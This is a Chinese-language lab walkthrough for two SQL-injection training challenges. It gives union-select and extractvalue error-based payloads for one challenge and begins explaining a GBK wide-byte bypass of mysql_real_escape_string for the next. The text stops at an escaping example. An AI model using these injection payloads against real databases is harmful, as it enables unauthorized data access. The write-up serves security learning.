 
## Less-23
单引号、字符型，所有注释符号无法使用
poc
```
id=100' union select '1','2','3
id=100' union select '1', extractvalue(1, concat(0x5e5e, version())), '3
```

## Less-24
这道题，整整做了接近两天的时间，而且还是在**审计源码**的情况下才过了的(自身太菜)。
各种排错，各种环境的搭建！下面详细解答一下这道题！
完全正确的设置应该是这样的
![env](http://o7ocntpuu.bkt.clouddn.com/less_24_env.png)
最主要的几个就是涉及到gbk编码的，别的就不用管了。
为了配置方便，反复实验，建议使用mysql的官方[docker镜像](https://hub.docker.com/_/mysql/)。
我环境配了很长时间，深知其中的痛苦，并且尽力不要在自己的本机做，环境配置起来比较繁琐，恢复还比较。我一开始以为我本机无法应用是因为我的mysql版本(5.5)太高，gbk编码的问题已经不能用了，所以我用的是这个[docker镜像](https://hub.docker.com/r/mtirsel/mysql-5.1/)，版本5.1，源自官方镜像，可以放心使用。
mysql的相关字符集的问题，可以看这篇文章，[MySQL的字符集](http://www.cnblogs.com/jevo/p/3274726.html)，基本上本实验用到的知识，这里都囊括了。

这里介绍一下最简单的配置方式，一条命令就可以完美的搭建好我们的配置环境，
在Less-24/login.php中添加代码如下
![code](http://o7ocntpuu.bkt.clouddn.com/less_24_add_code.png)

至此我们实验所需要的环境已经搭建完成，我们开始sql注入。
通过查看源码，我们主要的关注点在这里
```php
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
`login_user`和`login_password`都经过`mysql_real_escape_string`函数进行转义的，其转义的字符包括：
```
\x00    '   "   \r  \n  \x1a    \
```
这个函数能够执行的前提是，已经连接了数据库，实验时请注意。
```php
$con = mysql_connect("your_host", "root", "your_password");
if (!$con) {
    die('could not connect:' . mysql_error());
}
mysql_select_db("security", $con);
$user = 'something';
$user_trans = mysql_real_escape_string($user);
echo $user_trans;
```

这道题我们需要做的就是绕过经过`mysql_real_escape_string`转义，并被单引号包裹的sql查询语句。以我的能力，我能想到的只有是编码的问题了，即宽字节注入
举例
```
$trans_before = "%bf'";
$trans_after = mysql_real_escape_string($trans_before);
```
